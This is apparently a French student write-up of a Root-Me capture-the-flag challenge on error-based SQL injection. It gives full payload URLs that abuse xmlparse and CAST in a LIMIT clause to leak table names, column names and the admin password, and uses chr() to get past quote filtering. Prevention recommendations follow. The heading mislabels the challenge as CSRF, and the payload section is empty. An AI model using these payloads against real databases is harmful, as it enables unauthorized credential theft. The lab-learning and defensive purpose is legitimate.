


# Challenge 7: CSRF - contournement de jeton

## Nom / URL

**Nom du challenge :** SQL injection - Error 
**URL :** https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error?lang=fr
**Niveau :** MOYEN

## Les étapes de découverte de la vulnérabilité

1. ## Exploration du site web

Découverte page login & page contents, la faille doit forcément être sur une de ces deux pages

2. ## Recherche de solution

D'abord recherche de failles sur la page login mais après BEAUCOUP de tests aucune faille trouvée.
Finallement découverte d'une faille sur la page contents en modifiant la valeur order de l'url:
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC%20test

3. ## Découverte de la solution

La solution est en plusieurs étapes.

On découvre déjà qu'il est possible d'afficher le nom d'une variable dans une erreur en bidouillant avec xmlParse. Découverte du nom de la table contenant les utilisateurs via cette url:
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC%20LIMIT%20(select%20CAST(xmlparse(DOCUMENT%20table_name)::text%20AS%20INTEGER)x%20from%20information_schema.tables)

le cast integer & test sont là pour "manipuler" l'erreur: si on met directement un xml parse dans le limite, on a forcément une erreur sur le fait que LIMIT s'attends à recevoir un integer. Si on met juste le cast integer, on a une erreur sur le fait que cast s'attends à recevoir une chaine...

Beaucoup de limite sur la requête rendent la recherche des colonnes difficile. Impossible de mettre un ; le site détecte la tentative d'attaque dans ce cas, et les ' sont automatiquement doublés. Finalement on arrive à contourner ce dernier problème en recherchant le nom de la table avec des chr() dans information_schema.columns:
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC%20LIMIT%20(select%20CAST(xmlparse(DOCUMENT%20column_name)::text%20AS%20INTEGER)x%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20chr(109)||chr(51)||chr(109)||chr(98)||chr(114)||chr(51)||chr(53)||chr(116)||chr(52)||chr(98)||chr(108)||chr(51)%20AND%20ordinal_position%20=%202)

column_name va retourner le nom de la colonne dans l'erreur xml, il suffit juste de changer ordinal_position qui indique la position de la colonne recherché. 1 contient id, 2 contient us3rn4m3_c0l et 3 contient p455w0rd_c0l. Nous avons ainsi maintenant le nom de chaque colonne de la table.

Il suffit maintenant de faire un select sur la colonne 20p455w0rd_c0l dans la table 20m3mbr35t4bl3 afin de récupérer le mot de passe de l'administrateur:  http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC%20LIMIT%20(select%20CAST(xmlparse(DOCUMENT%20p455w0rd_c0l)::text%20AS%20INTEGER)x%20from%20m3mbr35t4bl3)
on obtient 1a2BdKT5DIx3qxQN3UaC . On fait la même chose avec us3rn4m3_c0l afin d'obtenir le pseudo de l'administrateur, admin. On peut enfin se connecter à la page login via ces identifiants et ainsi finir le challenge.

## Le payload utilisé + screenshot

**Payload utilisé :**

**Explication du payload :**

Utilisation de xml parse dans un limit afin de recevoir le mdp en erreur. 

**Screenshot :**

## Les recommandations pour sécuriser cette vulnérabilité

## 1. Utiliser des requêtes préparées
Ne jamais construire de requêtes SQL en concaténant directement les entrées utilisateur.

## 2. Préférer les procédures stockées
Si vous utilisez des procédures stockées, assurez-vous d’utiliser des paramètres plutôt que du SQL dynamique à l’intérieur. Cela fixe la structure de la requête et la rend sûre.

## 3. Valider les entrées avec une liste autorisée
Pour les parties de la requête qui ne peuvent pas être paramétrées (noms de tables, colonnes, ordre de tri), n’accepter que des valeurs connues et sûres.

## 4. Appliquer le principe du moindre privilège
L’utilisateur de la base de données utilisé par l’application ne doit avoir que les droits strictement nécessaires (ex. SELECT, INSERT), jamais des droits d’admin ou de DROP. Cela limite les dégâts si une injection survient.

## 5. Limiter le SQL dynamique
Construire dynamiquement des requêtes à partir des entrées utilisateur est risqué. Si vous devez le faire, validez ou whitelist toutes les parties dynamiques.

**Références complémentaires :**

- **SQL Injection Prevention Cheat Sheet** : [https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html]()
